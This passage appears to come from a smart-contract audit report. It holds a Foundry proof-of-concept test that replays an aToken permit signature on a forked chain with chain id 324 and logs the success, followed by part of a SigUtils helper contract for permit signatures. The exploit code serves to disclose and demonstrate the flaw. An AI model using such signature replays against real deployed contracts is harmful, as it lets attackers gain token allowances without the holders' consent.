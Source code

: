 ```
            permit.owner,
            permit.spender,
            permit.value,
            permit.deadline,
            v,
            r,
            s
        );

      
        console2.log("Allowance: ", IERC20(address(atoken)).allowance(address(0x328809Bc894f92807417D2dAD6b7C998c1aFdac6), address(0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e)));

        cheats.stopPrank();
    }

    function test_2_Atoken_deployed_with_same_contract_address_on_different_chain_or_Zksync_Chain_forked()
        public
    {
        cheats.createSelectFork("anvil");

        cheats.startPrank(attacker);

        atoken.permit(
            permit.owner,
            permit.spender,
            permit.value,
            permit.deadline,
            v,
            r,
            s
        );


        assertEq(block.chainid, 324);
        console2.log("Allowance: ", IERC20(address(atoken)).allowance(address(0x328809Bc894f92807417D2dAD6b7C998c1aFdac6), address(0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e)));
        console2.log("Singature Replayed Successfully on different chain");

        cheats.stopPrank();
    }
}

```

#### SigUtils.sol

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.12;

contract SigUtils {
    bytes32 internal DOMAIN_SEPARATOR;

    constructor(bytes32 _DOMAIN_SEPARATOR) {
        DOMAIN_SEPARATOR = _DOMAIN_SEPARATOR;
    }

    // keccak256("Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)");
    bytes32 public constant PERMIT_TYPEHASH =
        0x6e71edae12b1b97f4d1f60370fef10105fa2faae0126114a169c64845d6126c9;

```